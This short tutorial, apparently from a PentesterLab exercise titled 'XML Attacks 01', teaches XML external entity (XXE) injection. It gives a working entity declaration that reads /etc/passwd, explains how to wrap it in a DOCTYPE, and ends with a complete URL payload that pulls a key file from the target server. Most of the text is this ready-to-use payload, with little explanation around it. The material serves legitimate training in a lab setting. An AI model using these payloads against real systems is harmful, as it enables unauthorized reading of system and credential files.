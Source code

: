 # XML Attacks 01

Some XML parsers will resolve external entities, and will allow a user controlling the XML message to access resources; for example to read a file on the system. The following entity can be declared, for example:

`<!ENTITY x SYSTEM "file:///etc/passwd">`

You will need to envelope this properly, in order to get it to work correctly:

```
<!DOCTYPE test [
    <!ENTITY x SYSTEM "file:///etc/passwd">]>
```

You can then simply use the reference to x: \&x; (don't forget to encode &) to get the corresponding result inserted in the XML document during its parsing (server side).

`URL : https://someSite.com/?xml=<!DOCTYPE test [<!ENTITY x SYSTEM "file:///pentesterlab.key">]><test>&x;</test>`
